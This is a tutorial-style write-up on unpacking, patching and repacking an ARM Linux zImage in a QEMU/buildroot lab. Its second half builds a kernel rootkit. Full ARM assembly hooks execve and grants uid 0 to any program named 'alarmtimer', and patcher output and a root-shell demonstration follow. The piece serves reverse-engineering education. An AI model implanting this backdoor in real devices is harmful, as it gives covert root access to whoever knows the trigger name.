


# Unpacking, Patching, and Repacking a zImage file

While this isn't a CTF problem, I feel like it fits into this repository.

This journey starts with the following [stack overflow post](https://stackoverflow.com/questions/76571876/how-to-repack-vmlinux-elf-back-to-bzimage-file/78061741#78061741)

If you read through the original question, we see that the author has a bzImage file ("from some IOT devices") that they want to modify. The reason for doing this is inconsequential.

### Thought Process and not giving up.

I'd like to outline my thought process and how I would approach this problem. Usually I would take notes about what I tried, what didn't work, and what did work. This takes a lot of effort and would make this post much longer, so I'm going to outline what worked. But please, please, know that going into this process there was a lot that I did not know and I:

* made many attempts that resulted in failure, 
* had to backtrack and try something else, many of which also failed
* had to look and think about the problem from different points of view

The key is persistence, to be successful in Reverse Engineering, you need to have persistence. 

> <h3> NOTE: How you think is more important than what you know.

 Please also note that the `zImage` or `bzImage` you encounter may be different than what I outline here, it may have `initrd` baked in, it may have a different compression etc... The offsets of things will be different. This serves as a guide to "how to think about the problem" and you will have to adjust accordingly.

### Goals

I'll make some assumption and set some goals.

1) While we may have the kernel source code, we may not have the right tool chains or all the modifications necessary to recreate the kernel exactly
1) We must be able to "modify program control flow statically"
1) We must be able to repack the file in such a way as to still boot


### Approach
Here is a high level "path" I want to go down to reproduce and test things along the way.

1) Compile our own IOT firmware to boot and run under QEMU
    * Working on an embedded device brings a lot of other problems with it (Bootloader, JTAG, Peripherals etc...)
    * We want to get the methodology and approach correct before attempting to do any modifications on firmware that will be loaded on a device.
    * If we make a mistake on the device, we need to make sure we have a way to recover the device if it's no longer booting. etc...
1) Locate and use Kernel source as close to the original question 
    * I'm less interested in getting it exactly the same since this can serve as a guide, and the exact version of kernel is not important, as long as it's the same Major Version
1) Pick an architecture
    * Since the post mentions IOT, I think `x86` is out.
    * `ARM` is a very popular choice, so lets use that.
1) Successfully boot our IOT emulated firmware with QEMU
1) Figure out how the zImage is created and how we can extract the kernel from it
1) Figure out how to recompress the kernel and pack it back into the zImage file
1) Make modifications to the extracted kernel and repack that modified file
1) Make sure everything still boots correctly.

## Find a kernel close to the requested version

For those unfamiliar with `buildroot`, it's an awesome framework to build a whole system from scratch. I picked this approach because it's easy and I want to get on with things. Finding a `3.x` kernel version was done by looking at the git history on the `arm` default config file for `vexpress`. I picked the very first commit where this file was checked in.

```
git clone https://github.com/buildroot/buildroot.git
cd buildroot
git checkout b184e46dd3a302c4517c781d90da6405576edf6a
```

### Build the Firmware

Based off of previous experience, I have learned that compiling old source with new toolchains and system is usually a major pain in the a$$...

So I created a [Dockerfile](./container_build/Dockerfile) with the necessary tools to get things compiled on an older OS.

Build the container and start it, make sure we volume mount our current working directory so we have access to the buildroot sources.
```bash
docker build -t kernel_builder .
docker run --rm -it --entrypoint=/bin/bash -v $(pwd):/host kernel_builder:latest
```
In the docker container 

```bash
root@d5c489bf2b48:/# cd /host/
root@d5c489bf2b48:/host# make qemu_arm_vexpress_defconfig
root@d5c489bf2b48:/host# make 
```

We encounter an error:

```bash
In file included from clean-temp.h:22:0,
                 from clean-temp.c:23:
./stdio.h:477:1: error: 'gets' undeclared here (not in a function)
 _GL_WARN_ON_USE (gets, "gets is a security hole - use fgets instead");
 ^
```

That's really nice and all, but we're not going to change the original sources to replace `gets` with `fgets` right now, so we're going to modify the file manually:

```bash
vi ./output/build/host-m4-1.4.16/lib/stdio.h +477
```

Then delete the following lines:
```bash
#undef gets
_GL_WARN_ON_USE (gets, "gets is a security hole - use fgets instead");
```

Continue running `make`, go grab a coffee or your favorite beverage, and wait for it to complete...


### Booting the Firmware

Yay, we have a successful build. We can now boot our "IoT" firmware.

`board/qemu/arm-vexpress/readme.txt` gives us the command to run:  
We need to run this on our host system.

```bash
$ qemu-system-arm -M vexpress-a9 -kernel output/images/zImage -drive file=output/images/rootfs.ext2,if=sd -append "console=ttyAMA0,115200 root=/dev/mmcblk0" -serial stdio -net nic,model=lan9118 -net user
```

Error:
```bash
qemu-system-arm: Invalid SD card size: 2.26 MiB 
SD card size has to be a power of 2, e.g. 4 MiB.
```

Resize to 4M to make it happy:
```bash
$ sudo qemu-img resize output/images/rootfs.ext2 4M
```

Create a script to change the interrupt key to something other than `ctrl-c`:
```bash
#!/usr/bin/env bash
stty intr ^]    # to change the interrupt key from ^c to ^]
qemu-system-arm -M vexpress-a9 -kernel output/images/zImage -drive file=output/images/rootfs.ext2,if=sd -append "console=ttyAMA0,115200 root=/dev/mmcblk0" -serial stdio -net nic,model=lan9118 -net user
stty intr ^c    # revert back to ctrl-c
```

Now we have a booting system. We can get started! 
Thats was a lot of effort, but it's worth it in order to be able to understand the problem at hand. We now have a fully emulated environment that we can debug via `gdb`. We have full sources to refer to and understand the assembly if we get stuck... Yes, that time was worth it.

---

## Actually start on the problem

### Learning about `zImage` files

The post talks about `bzImage`, our buildroot produced a `zImage`. For the purposes of this guide I'm just going to use the `zImage`. Adjustments should be made for a `bzImage` as needed.

File we need to look at: `output/images/zImage`

```bash
$ file output/images/zImage
output/images/zImage: Linux kernel ARM boot executable zImage (little-endian)
$ binwalk zImage

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Linux kernel ARM boot executable zImage (little-endian)
18280         0x4768          gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)
```

Lets copy out the `gz` image and then extract it.

```bash
$ dd if=zImage of=extracted_original.gz bs=1 skip=18280
2415664+0 records in
2415664+0 records out
2415664 bytes (2.4 MB, 2.3 MiB) copied, 2.36729 s, 1.0 MB/s
$ gzip -c -d extracted_original.gz > extracted

gzip: extracted_original.gz: decompression OK, trailing garbage ignored
```

Now we'll try to recompress it. Note tha binwalk told us maximum compression was used.

```bash
$ gzip -9 -c -n extracted > extracted_recompressed.gz
$ ls -la extracted*.gz
-rw-rw-r-- 1 caesurus caesurus 2415664 Feb 28 16:11 extracted_original.gz
-rw-rw-r-- 1 caesurus caesurus 2415607 Feb 28 16:12 extracted_recompressed.gz
```
We have a `57` byte size difference, but lets see if the rest of the data is the same... or at least similar enough.

```bash
$ xxd extracted_original.gz > ex_org.hex
$ xxd extracted_recompressed.gz > ex_recom.hex
$ diff ex_org.hex ex_recom.hex
150976,150979c150976
< 0024dbf0: 4e0d 9784 4948 0000 0000 0000 0000 0000  N...IH..........
< 0024dc00: 0000 0000 5f23 2500 a823 2500 6847 0000  ...._#%..#%.hG..
< 0024dc10: ac23 2500 a423 2500 7808 0000 9c23 2500  .#%..#%.x....#%.
< 0024dc20: 9823 2500 a023 2500 0000 0000 0000 0000  .#%..#%.........
---
> 0024dbf0: 4e0d 9784 4948 00                        N...IH.
```

We see that we have trailing data, but other than that, the contents is identical... we're on the right track... We know how it was originaly compressed, this is very important.

#### What is this data?

We should probably spend some time looking at what a `zImage` is and how it's build etc...

[This article](https://www.ibiblio.org/oswg/oswg-nightly/oswg/en_US.ISO_8859-1/articles/alessandro-rubini/boot/boot/zimage.html) gives some really nice details about what's going on. 

To summerize, we have executable code that uncompresses the kernel into memory and then hands execution control to it. This means that the trailing data is probably important. Lets inspect it with Binary Ninja or your favorite disassembler.



We observe that the binja has recognized these as `int32_t` and we see there are references to these values in the code. 

If we look a bit closer, we see the `0x4768` value, which is `18280`. If we remember the `binwalk` output, we see that is the start of the `gz` file in `zImage`. So that's something that makes sense.

The other values are all in the `0x2523nn` range, and if we observe the offsets on the left, we can conclude these are probably offsets as well, probably to space at the end of the file etc... 

We can see `0x878` looks like it's a function, and if we look at function `sub_8d4` we can see a string that looks like an error being passed to it.



We can see this function matches the source here: [https://elixir.bootlin.com/linux/v3.3.4/source/arch/arm/boot/compressed/misc.c#L134-L154](https://elixir.bootlin.com/linux/v3.3.4/source/arch/arm/boot/compressed/misc.c#L134)

We see that the calling convention for the function is:

```c
ret = do_decompress(input_data, input_data_end - input_data, output_data, error);
``` 

The second argument is the size of the image. When we look back at the `sub_8d4` function, there is a call to `sub_32d4`. We need to look at the asm to see what's really going on:

```asm
ldr     r0, [r4, r3]  ; Load into r0 the value from memory at address r4+r3 (data_252374)
ldr     r3, =data_984 ; Load into r3 the address of data_984
ldr     r1, [r4, r3]  ; Load into r1 the value from memory at address r4+r3 (data_25236c)
ldr     r3, =data_988 ; Load into r3 the address of data_988
rsb     r1, r0, r1    ; Reverse subtract r1 from r0, result in r1 (r1 = r0 - r1)
```
We can say `data_252374` is a pointer to the start of our data, `data_25236c` is a pointer to the end of our data.

There are a couple of options at this point. The other pointers are necessary and are referenced in the code etc... We can try to fully understand and update each reference, but that sounds like a lot of work.

> <h3> NOTE, I am a big fan of TDD(Test Drive Development). And the principles can be applied to Reverse Engineering as well. TDD has you create a Unit Test which fails, then create just enough Production code in order to make it pass. We can apply that here as well. 

Could we get away with a shortcut? Could we ensure that our updated `gz` image is the same size, or smaller than the original, pad it to be the same size, and just update the relevant pointers to point to the end of our `gz` image. 

This keeps our trailing data the same (for this image), and keeps things simple. 

#### Writing the script

This part took a bit of time. There was quite a bit of debugging with `gdb-multiarch` attached to `qemu-system`. The process of doing this is enough to fill a whole other post, so I'll spare you.

What you should know is:
1) Debugging `qemu-system-<arch>` with `-s -S` is possible and you should totally learn to do this
1) Dynamic analysis is something you should get comfortable with
1) `gdb-multiarch` is a thing and you should use it

In the end I got a working unpacker and packer for my specific `zImage`. I did the bare minimum to get it working on my file. Knowing full well that modifications will have to be made to support other versions.

There are other scripts out there that do this same thing.

Excellent article that addresses recreating zImage with larger kernels and `xz` data...
https://jamchamb.net/2022/01/02/modify-vmlinuz-arm.html
I would highly recommend reading the article and understanding the contents there. I decided I still wanted to create the functionality myself, but there is no shame in just using existing tools out there.

Here is the script I ended up creating: [zImage_repacker.py](./scripts/zImage_repacker.py)

First we try to run it without modifying the extracted kernel. What we're trying to do here is verify that our logic is correct and we can recreate the original `zImage` file:
```bash
$ ./scripts/zImage_repacker.py 
usage: zImage_repacker.py [-h] (-x | -c) -i zImage_file
zImage_repacker.py: error: the following arguments are required: -i/--input
$ ./scripts/zImage_repacker.py -x -i zImage
[+] Extracting kernel from zImage
[+] Decompressing to extracted_kernel
```

Our script will be looking for `extracted_kernel.patched` so manually create it:
```bash
$ cp extracted_kernel extracted_kernel.patched
```

Now try to repack it:
```bash
$ ./scripts/zImage_repacker.py -c -i zImage  
[+] Compressing kernel from zImage
[+] Compressing kernel from extracted_kernel.patched > vmlinux_recompressed.gz
Original gz size: 2415607, new size: 2415607
[+] Kernel compressed and patched into zImage_patched
$ md5sum zImage*
a902f7320c3a7d5bb102af76fa018f33  zImage
a902f7320c3a7d5bb102af76fa018f33  zImage_patched
```

We have made sure that without modifications we were able to recreate the `zImage` file exactly, the patched version has the exact same `md5sum` as the original. 


## Modifying the Kernel

### Changing a simple string

We can make a simple change in the `extracted_kernel.patched` file. We need to make sure we don't change the length and offset, otherwise everything falls apart. We can edit the file in place with `sed`

```bash
 sed -i 's/#1 SMP Wed Feb 28 15:3/Hello from hacker land/' extracted_kernel.patched
 ```

Now we can boot and check whether our change was made correctly:

```bash
Starting network...

Welcome to Buildroot
buildroot login: root
# uname -a
Linux buildroot 3.3.4 Hello from hacker land1:25 UTC 2024 armv7l GNU/Linux
# 
```
YAY, we see that our change shows up when we do a `uname -a`!!!

That's pretty cool, and at this point we can say we have addressed the original question. The `extracted_kernel.patched` file is available for manual modification with your favorite tool.

But come on... we can do better. This is an old Kernel with no real mitigations, so let's have some fun.

### Custom rootkit

Let's go big or go home. I want to create a rootkit that does privilege escalation on the system.

We should outline some goals and assumptions before we begin.
1) We need to change execution control in the existing kernel
1) The compressed kernel shouldn't be larger than the original
1) In order to make our work easier, we should try to recover symbols
1) Manual modifications are nice, but I'd prefer a script that can patch the kernel for us
1) We should try to keep this in Python without needing paid software
   - I would normally script this in Binary Ninja, but not everyone has a paid license, therefore we won't use Binja

#### Symbol Recovery

Working without symbols is a pain! We have access to a wonderful tool called [`vmlinux-to-elf`](https://github.com/marin-m/vmlinux-to-elf) that rebuilds symbols and puts it in a convenient elf file. We can't just use compress the resulting ELF file, but we can use it for symbol information.

```bash
vmlinux-to-elf extracted_kernel extracted_kernel.elf 
[+] Version string: Linux version 3.3.4 (root@d5c489bf2b48) (gcc version 4.5.3 (Buildroot 2012.05-git) ) #1 SMP Wed Feb 28 15:31:25 UTC 2024
[+] Guessed architecture: armle successfully in 0.50 seconds
[+] Found kallsyms_token_table at file offset 0x003b5fd0
[+] Found kallsyms_token_index at file offset 0x003b6350
[+] Found kallsyms_markers at file offset 0x003b5e30
[+] Found kallsyms_names at file offset 0x0036ea80
[+] Found kallsyms_num_syms at file offset 0x0036ea70
[i] Null addresses overall: 0 %
[+] Found kallsyms_addresses at file offset 0x00354ac0
[+] Successfully wrote the new ELF kernel to extracted_kernel.elf
```
We can just do this in the script.

This allows us to now open the ELF file with Python, look up symbol offsets, and then use those to patch the kernel.

The next thing to do is deciding what we want to hook. I decided I wanted to hook `execve` so that I could add a check whenever something is run.

Now we need to find a location to write our code. We don't want to add any space to the end of the file, and we want the code to be located in the executable section. We should look around to find any unused code and just try to reclaim that space.

After looking through the symbols for a while, I spotted the following: `sony_probe`. This strikes me as a bit strange. A `sony` specific driver in the kernel. Turns out it's part of a driver for a PS2 HID. Well I don't know about you, but I think that's a great location. It's a large function, it is unlikely to be used in an embedded device (or QEMU system), and so that's where we'll place our code.

We'll use Keystone engine to convert our assembly into bytecode.

One of the things I like to do is a simple:
```asm
// We protect ourselves and just return from this function if it is called
PUSH    {lr}
POP     {pc}
```

This is placed at the start of the function. It is a safeguard in the case that this function is ever called, it will just immediately return.

We need to write the rest of our code.
```asm
    // Entry for our code, this is where we'll have to jump to.
    // Save off some registers to restore later...
    PUSH    {{r4, r5, r6, r7, r8, r9, r10, lr}}

    // Do the call to getname since we're hijacking that bl 
    BL   #{int_to_32bit_hex(-(BASE_CODE-addr_getname))}

    // R0 is our return, we should store that somewhere
    MOV  r10, r0
    LDR  r6, ={string_offset+BASE_ADDR:#x}
    ADD  r0, r0, 2  //Remove first two chars, "./" from the command...

    start:
        LDRB r2, [r0], #1  // Load a byte from the first string into r2 and increment r0
        LDRB r3, [r6], #1  // Load a byte from the second string into r3 and increment r1
        CMP r2, r3         // Compare the two bytes
        BNE end            // Branch to not_equal if they are not the same
        CMP r2, #0         // Check if we've hit the null terminator
        BNE start          // If not, loop back and continue comparing
        // If we get here, strings are equal
    strings_equal:
        // Handle the strings being equal
        MOV r0, #0           // We must call prepare_creds with a NULL
        BL   #{int_to_32bit_hex(-(BASE_CODE-addr_prepare_creds))}
        MOV r1, #0           // We want to load zero into r1
        STR r1, [r0, #4]     // Write zero to offset 4 into the cred struct
        STR r1, [r0, #8]     // ...
        STR r1, [r0, #12]    // ...
        STR r1, [r0, #16]    // ...
        STR r1, [r0, #20]    // ...
        STR r1, [r0, #24]    // ...
        STR r1, [r0, #28]    // ...
        STR r1, [r0, #32]    // Write zero to offset 32 into the cred struct
        BL   #{int_to_32bit_hex(-(BASE_CODE-addr_commit_creds))}

    end:
    // Restore the result of getname so we can return that
    MOV r0, r10
    // Return
    POP    {{r4, r5, r6, r7, r8, r9, r10, pc}}
```

I have tried to comment the code sufficiently to make it readable and understandable. 

The summary:
We replace the `bl getname` in `execve` to `branch and link` to our code instead. Once there, we call `getname()` ourselves, and store the result from `r0` into `r10` for later.

We then compare the filename passed to `getname()` in `execve` to a string elsewhere in the kernel. We could overwrite something with our own string... like `r00tk1t` but for this exercise I just used an existing string `alarmtimer`, it's less conspicuous. If we match our string compare, we proceed to call `prepare_creds(NULL)`. Once that returns, we overwrite the `uid/gid` etc.. in the struct. We now have an updated credentials struct, which we then pass to `commit_creds`.

What this effectively does is change the user id of the current executing process to `0` (`root`). This will only happen if the name matches exactly.

### Putting it all together

```bash
./scripts/zImage_repacker.py -x -i zImage && ./scripts/kernel_patcher.py -k extracted_kernel && ./scripts/zImage_repacker.py -c -i zImage
```

This gives us a nice error message... 
```bash
    raise Exception(f"Compressed size is larger than allowed. {len(compressed_data)} > {original_gz_size}")
Exception: Compressed size is larger than allowed. 2415615 > 2415607
```
Oh no... what now? The compressed image is just a bit too large. We can do something about that though. We can find and replace some existing string in the kernel with a bunch of nulls (which are more compressible). We'll add that to the [kernel_patcher.py](./scripts/kernel_patcher.py) script. 

```python
    long_useless_message = "Please see the file Documentation/feature-removal-schedule.txt in the kernel source tree for more details"
    useless_msg_offset = find_string_in_bytearray(kernel_code, long_useless_message)
    if useless_msg_offset:
        self.apply_byte_patch(kernel_code, useless_msg_offset, b'\x00'*(len(long_useless_message)))
    else:
        raise RuntimeError("Couldn't find the string used to free up space...")
```

Now we have a successful patching:
```bash
[+] Extracting kernel from zImage
[+] Decompressing to extracted_kernel
[+] Writing to offset: 3918739 (0x3bcb93)
string_offset: 0x3bc960
BASE_CODE:                   0x2545cc 0x8025c5cc
getname:                     0xb33ac 0x800bb3ac
printk:                      0x3290ac 0x803310ac
prepare_creds:               0x37950 0x8003f950
commit_creds:                0x37aac 0x8003faac
string_offset(alarmtimer):   0x3bc960 0x803c4960

        // We protect ourselves and just return from this function if it is called
        PUSH    {lr}
        POP     {pc}

        // Entry for our code, this is where we'll have to jump to.
        // Save off some registers to restore later...
        PUSH    {r4, r5, r6, r7, r8, r9, r10, lr}
        
        // Do the call to getname since we're hijacking that bl 
        BL   #0xffe5ede0

        // R0 is our return, we should store that somewhere
        MOV  r10, r0
        LDR  r6, =0x803c4960
        ADD  r0, r0, 2  //Remove first two chars, "./" from the command...

        start:
            LDRB r2, [r0], #1  // Load a byte from the first string into r2 and increment r0
            LDRB r3, [r6], #1  // Load a byte from the second string into r3 and increment r1
            CMP r2, r3         // Compare the two bytes
            BNE end            // Branch to not_equal if they are not the same
            CMP r2, #0         // Check if we've hit the null terminator
            BNE start          // If not, loop back and continue comparing
            // If we get here, strings are equal
        strings_equal:
            // Handle the strings being equal
            MOV r0, #0           // We must call prepare_creds with a NULL
            BL   #0xffde3384
            MOV r1, #0           // We want to load zero into r1
            STR r1, [r0, #4]     // Write zero to offset 4 into the cred struct
            STR r1, [r0, #8]     // ...
            STR r1, [r0, #12]    // ...
            STR r1, [r0, #16]    // ...
            STR r1, [r0, #20]    // ...
            STR r1, [r0, #24]    // ...
            STR r1, [r0, #28]    // ...
            STR r1, [r0, #32]    // Write zero to offset 32 into the cred struct
            BL   #0xffde34e0

        end:
        // Restore the result of getname so we can return that
        MOV r0, r10
        // Return
        POP    {r4, r5, r6, r7, r8, r9, r10, pc}
        
[+] Writing to offset: 2442700 (0x2545cc)
00000000  04 e0 2d e5 04 f0 9d e4 f0 47 2d e9 73 7b f9 eb   |..-......G-.s{..|
00000010  00 a0 a0 e1 50 60 9f e5 02 00 80 e2 01 20 d0 e4   |....P`....... ..|
00000020  01 30 d6 e4 03 00 52 e1 0d 00 00 1a 00 00 52 e3   |.0....R.......R.|
00000030  f9 ff ff 1a 00 00 a0 e3 d1 8c f7 eb 00 10 a0 e3   |................|
00000040  04 10 80 e5 08 10 80 e5 0c 10 80 e5 10 10 80 e5   |................|
00000050  14 10 80 e5 18 10 80 e5 1c 10 80 e5 20 10 80 e5   |............ ...|
00000060  1e 8d f7 eb 0a 00 a0 e1 f0 87 bd e8 60 49 3c 80   |............`I<.|
patch_addr:    0x9acc, 0x80011acc
[+] Writing to offset: 39628 (0x9acc)
00000000  c0 2a 09 eb                                       |.*..|
[+] Compressing kernel from zImage
[+] Compressing kernel from extracted_kernel.patched > vmlinux_recompressed.gz
Original gz size: 2415607, new size: 2415591
00000000  00 00 00 00 00 00 00 00 00 00 00 00 00 5f 23 25   |............._#%|
00000010  00 a8 23 25 00 68 47 00 00 ac 23 25 00 a4 23 25   |..#%.hG...#%..#%|
00000020  00 78 08 00 00 9c 23 25 00 98 23 25 00 a0 23 25   |.x....#%..#%..#%|
00000030  00 00 00 00 00 00 00 00 00                        |.........|
[+] Kernel compressed and patched into zImage_patched
```

Now all we have to do is demonstrate the functionality. 
We will boot with our patched Kernel:
```bash
Starting network...

Welcome to Buildroot
buildroot login: user1
Password: 
$ id
uid=1001(user1) gid=1001(user1) groups=1001(user1)
$ cat /root/secret
cat: can't open '/root/secret': Permission denied
$ ls /root
ls: can't open '/root': Permission denied
```
We see that we are user `1001` and that we don't have access to `/root`.

Our patched code checks whether the executable being run is called `alarmtimer`... Therefore we can create a script called `alarmtimer`, set it to exectuable, and run it. When that is executed, everything it runs will be run with `uid=0`. We can have it create a new shell with elevated permissions. This now allows us to access the system as if we were the `root` user. 

```bash
$ cat alarmtimer 
id
/bin/sh
$ chmod +x alarmtimer
$ ./alarmtimer 
uid=0(root) gid=0(root) groups=1001(user1)
$ id
uid=0(root) gid=0(root) groups=1001(user1)
$ ls /root
secret
$ cat /root/secret
ROOTS_DIRTY_LITTLE_SECRET_PASSWORD
$ 
``` 

Obviously as far as rootkits go, this is pretty lazy and simple. But as a proof of concept it shows that we can take a kernel for a device, unpack it, patch the kernel with "special" functionality, repack it and boot. This functionality could be used to add calls to `printk` or to `print_hex_dump_bytes` whenever a specific condition is met. This is an interesting and useful debugging tool on devices we don't have the source code for. 

Hopefully this post helps someone in the future. The goal was to give a guide on how to tackle a problem like this one, I tried to convey the thought process rather than specific concrete steps.

Happy Hacking!